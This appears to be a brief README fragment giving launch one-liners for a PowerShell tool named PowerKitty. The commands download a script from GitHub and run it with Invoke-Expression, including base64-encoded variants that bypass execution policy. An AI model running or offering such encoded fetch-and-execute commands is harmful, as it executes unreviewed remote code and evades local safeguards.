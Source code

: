 PowerKitty

# Launch : one liner
> Invoke-Expression (IWR https://raw.githubusercontent.com/WillChaos/PowerKitty/master/PowerKitty/PowerKitty.ps1).content

# Launch : one liner (encoded)
powershell.exe -ExecutionPolicy Bypass -EncodedCommand "SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKABJAFcAUgAgAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AVwBpAGwAbABDAGgAYQBvAHMALwBQAG8AdwBlAHIASwBpAHQAdAB5AC8AbQBhAHMAdABlAHIALwBQAG
8AdwBlAHIASwBpAHQAdAB5AC8AUABvAHcAZQByAEsAaQB0AHQAeQAuAHAAcwAxACkALgBjAG8AbgB0AGUAbgB0AA==" -NoExit

# Launch : one liner (encoded) (powershell 7)
pwsh -ExecutionPolicy Bypass -EncodedCommand "SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKABJAFcAUgAgAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AVwBpAGwAbABDAGgAYQBvAHMALwBQAG8AdwBlAHIASwBpAHQAdAB5AC8AbQBhAHMAdABlAHIALwBQAG
8AdwBlAHIASwBpAHQAdAB5AC8AUABvAHcAZQByAEsAaQB0AHQAeQAuAHAAcwAxACkALgBjAG8AbgB0AGUAbgB0AA==" -NoExit
